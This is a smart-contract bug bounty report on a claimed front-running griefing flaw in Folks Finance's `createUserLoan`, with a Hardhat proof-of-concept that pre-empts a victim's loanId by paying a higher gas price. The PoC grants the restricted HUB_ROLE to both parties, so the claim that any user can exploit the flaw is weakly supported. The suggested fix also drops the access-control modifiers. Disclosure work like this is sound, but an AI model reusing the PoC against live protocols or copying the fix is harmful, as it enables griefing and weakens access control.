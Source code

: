 
# Front-Running Vulnerability in `createUserLoan` Method

Submitted on Wed Jul 31 2024 21:51:22 GMT-0400 (Atlantic Standard Time) by @chista0x for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33880

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x2cAa1315bd676FbecABFC3195000c642f503f1C9

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The `createUserLoan` method in the protocol's contract is vulnerable to a front-running attack. A malicious user can exploit this by observing a pending transaction and submitting their own transaction with the same `loanId` but with a higher `gasPrice`, causing the victim's transaction to be reverted due to the loan ID already being in use.

## Vulnerability Details
The `createUserLoan` function currently checks if a `loanId` is already created and reverts the transaction if it is. However, this implementation allows a malicious user to front-run a legitimate user's loan creation request by submitting a transaction with the same `loanId` but with a higher `gasPrice`. This results in the attacker's transaction being processed first, and the legitimate user's transaction being reverted due to the loan ID collision.

The relevant code snippet from the `createUserLoan` method is:
```solidity
contract LoanManager is ReentrancyGuard, ILoanManager, LoanManagerState {

    ...

    function createUserLoan(bytes32 loanId, bytes32 accountId, uint16 loanTypeId, bytes32 loanName)
        external
        override
        onlyRole(HUB_ROLE)
        nonReentrant
    {
        // check loan types exists, is not deprecated and no existing user loan for same loan id
        if (!isLoanTypeCreated(loanTypeId)) revert LoanTypeUnknown(loanTypeId);
        if (isLoanTypeDeprecated(loanTypeId)) revert LoanTypeDeprecated(loanTypeId);
        if (isUserLoanActive(loanId)) revert UserLoanAlreadyCreated(loanId);

        // create loan
        UserLoan storage userLoan = _userLoans[loanId];
        userLoan.isActive = true;
        userLoan.accountId = accountId;
        userLoan.loanTypeId = loanTypeId;

        emit CreateUserLoan(loanId, accountId, loanTypeId, loanName);
    }

    ...

}
```

```solidity
contract LoanManagerState is AccessControlDefaultAdminRules {

    ...

    mapping(bytes32 loanId => UserLoan) internal _userLoans;

    ...

    function isUserLoanActive(bytes32 loanId) public view returns (bool) {
        return _userLoans[loanId].isActive;
    }

    ...

}
```

## Impact Details
This vulnerability can be exploited by a malicious user to prevent legitimate users from creating new loans on the protocol. By continuously front-running transactions, an attacker could effectively block all new loan creation attempts, causing significant disruption to the protocol's user base.



## Recommendation
To mitigate this vulnerability, it is recommended to generate the `loanId` using a seed provided by the user and the sender's address. This can be achieved by hashing the seed and the address together, preventing attackers from predicting or replicating the `loanId`.

Proposed code change:
```solidity
function createUserLoan(bytes32 seed, bytes32 accountId, uint16 loanTypeId, bytes32 loanName)
    external
    override
{
    bytes32 loanId = keccak256(abi.encode(seed, accountId));

    // existing logic...
}
```

## References
- [LoanManager.sol on GitHub](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/LoanManager.sol#L49)

        
## Proof of concept
## Proof of Concept (POC)
The following test simulates a front-running attack. The attacker submits a transaction with a higher gas price, causing the legitimate user's transaction to be reverted.


Add the code to the `test\hub\LoanManager.test.ts`

```javascript
   describe("CreateUserLoan Front-Running", () => {
    it("Chista0x-Front-Running-CreateUserLoan", async () => {
      const { hub, unusedUsers,admin, loanManager, loanTypeId, loanName } =
        await loadFixture(createUserLoanFixture);


      // Just for change nonce that simulate front-running
      await loanManager.connect(admin).grantRole(HUB_ROLE, unusedUsers[0]);
      await loanManager.connect(admin).grantRole(HUB_ROLE, unusedUsers[1]);


      const loanId_Same: string = getRandomBytes(BYTES32_LENGTH);
      expect(await loanManager.isUserLoanActive(loanId_Same)).to.be.false;

      // set the mining behavior to false, so the transaction will be collected in the mempool, before finalization
      await network.provider.send("evm_setAutomine", [false]);

      // Victim made the transaction for create user loan with new loan id
      const createUserLoan_victim = await loanManager.connect(unusedUsers[0])
      .createUserLoan(loanId_Same, getAccountIdBytes("ACCOUNT_ID_victim"), loanTypeId, loanName,
        { gasLimit: 500000, gasPrice: ethers.parseUnits("100", "gwei") });
      console.log("Victim TX Hash = ", createUserLoan_victim.hash);

      // attacker create front-running for victim transaction with same loanId (send trx with higher gasPrice)
      const createUserLoan_attacker = await loanManager.connect(unusedUsers[1])
      .createUserLoan(loanId_Same, getAccountIdBytes("ACCOUNT_ID_attacker"), loanTypeId, loanName,
        { gasLimit: 500000, gasPrice: ethers.parseUnits("101", "gwei") });
      console.log("Attacker TX Hash = ", createUserLoan_attacker.hash);

      const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
        "pending", 
        false, 
      ]);
      console.log("\n Pending Transactions = " , pendingBlock.transactions);

      // Manually create a block with the pending transactions
      await network.provider.send("evm_mine", []);

      // verify user loan is created
      expect(await loanManager.isUserLoanActive(loanId_Same)).to.be.true;

      expect(createUserLoan_attacker)
      .to.emit(loanManager, "CreateUserLoan")
      .withArgs(loanId_Same, getAccountIdBytes("ACCOUNT_ID_attacker"), loanTypeId, loanName);

      expect(createUserLoan_victim)
      .to.be.revertedWithCustomError(loanManager, "UserLoanAlreadyCreated")
      .withArgs(loanId_Same);

      expect(await loanManager.isUserLoanActive(loanId_Same)).to.be.true; // true
    });
  });
```

To run the test, use the following command:
```bash
npx hardhat test --grep "Chista0x-Front-Running-CreateUserLoan"
```

Sample test output:
```bash
$ npx hardhat test --grep  "Chista0x-Front-Running-CreateUserLoan"


  LoanManager (unit tests)
    CreateUserLoan Front-Running
Victim TX Hash =  0x4ec39cc27558587c1ba368c465434c0805163340e6fad4647aba8794cd796246
Attacker TX Hash =  0x7fc3ab683d5a8627de5d884ec2472800f00e6b49d02cdd3fa112c0000f836a5e

 Pending Transactions =  [
  '0x7fc3ab683d5a8627de5d884ec2472800f00e6b49d02cdd3fa112c0000f836a5e',
  '0x4ec39cc27558587c1ba368c465434c0805163340e6fad4647aba8794cd796246'
]
      ✔ Chista0x-Front-Running-CreateUserLoan (3687ms)


  1 passing (4s)
```